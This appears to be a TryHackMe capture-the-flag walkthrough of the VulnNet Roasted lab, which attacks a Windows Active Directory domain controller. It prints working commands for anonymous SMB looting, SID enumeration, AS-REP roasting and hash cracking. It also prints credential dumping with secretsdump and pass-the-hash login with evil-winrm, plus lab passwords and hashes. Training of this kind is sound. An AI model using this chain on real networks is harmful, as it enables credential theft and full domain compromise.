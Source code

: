 ```yaml
---

title: Walkthrough - VulnNet Roasted
published: true
---
```


Windows Server, Active Directory, Enumeration, Kerberos, Roasting, SMB, evil-winrm. VulnNet Entertainment quickly deployed another management instance on their very broad network...

[https://tryhackme.com/room/vulnnetroasted](https://tryhackme.com/room/vulnnetroasted)

* * *

## Notes

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-14 20:07:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
```

- `smbclient -L 10.10.65.165` we are allowed to see shars anonymously.

```
Password for [WORKGROUP\0xskar]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.65.165 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Lets check out what is in the Anonymous shares, and download them.

- `smbclient \\\\10.10.65.165\\VulnNet-Business-Anonymous\\ -N -c 'prompt OFF; recurse ON;mget *'`
- `smbclient \\\\10.10.65.165\\VulnNet-Enterprise-Anonymous\\ -N -c 'prompt OFF; recurse ON;mget *'`

Lots of names in these files, lets try making a list and gathering credentials.

```
alexa
whitehat
jack
goldenhand
tony 
skid
johnny 
leet
```

- check which shares are readable or writable `smbmap -u anonymous -H 10.10.181.27`
- since we have access to `IPC$` anonymously, we can use impacket lookupsid to list domain users `python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.181.27 | tee users.txt` and save them to another file so we can extract the users

```
[*] Brute forcing SIDs at 10.10.181.27
[*] StringBinding ncacn_np:10.10.181.27[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

- extract the users so we can use the userfile with GetNPUsers.py to find users without Kerberos pre-authentication.
- `grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users-cut.txt` 

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet-Roasted]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py \                                     
> -dc-ip 10.10.220.192 \
> -usersfile users-cut.txt \
> -no-pass \
> vulnnet-rst.local/
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:bd77ca3bbc7b36c490b15c39c24b304b$30c3c9569c4c75a02e00092806aaf8dd28075a64be0d5fe1cd91729db5ccaf7c53b2a6d27666f3a182b1cb143515d79eb2623d3de05306300efaabaed91cde2cca74ac40ddf335994becac4b915538a2f49cff101261958141f7c2f0dd24828413183d44d8d25b1d3ec77c417ef1e4f577b31a2e0d751def5db906885e16291c49f076660a666b0a8e1a3152dbf50cb58141b7b3f9244fe34bf1d16115555edca83894e65c1bd55ea250f5eb2685c72e1152b5a2390379f56fa78596315328cf64931caba3e73e91703684063987f6574e2f80b7711fc36271dd4805ef9d3b6e37e1ab80140b87ef647d8977adf1accac2859b9989e6
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- crack users hash `john t-skid_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
- `tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)`
- `t-skid:tj072889*`

Using these credentials we are not able to access the NETLOGON share on Samba

Within the VBS script file on the share we fine more credientials we can use to access the system

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

- `evil-winrm -i 10.10.220.192 -u a-whitehat -p "bNdKVkjv3RR9ht"`

* * * 

## What is the content of user.txt?

```
Directory: C:\users\enterprise-core-vn\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/13/2021   3:43 PM             39 user.txt
```

* * * 

## What is the content of root.txt?

We can use impackets secretsdump.py to dump hashes

- `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.220.192`

With the administrator's hash we can connect and get the system flag.

- `evil-winrm -i 10.10.220.192 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"`

![0xskar](/assets/vulnnet-roasted01.png)

* * * 

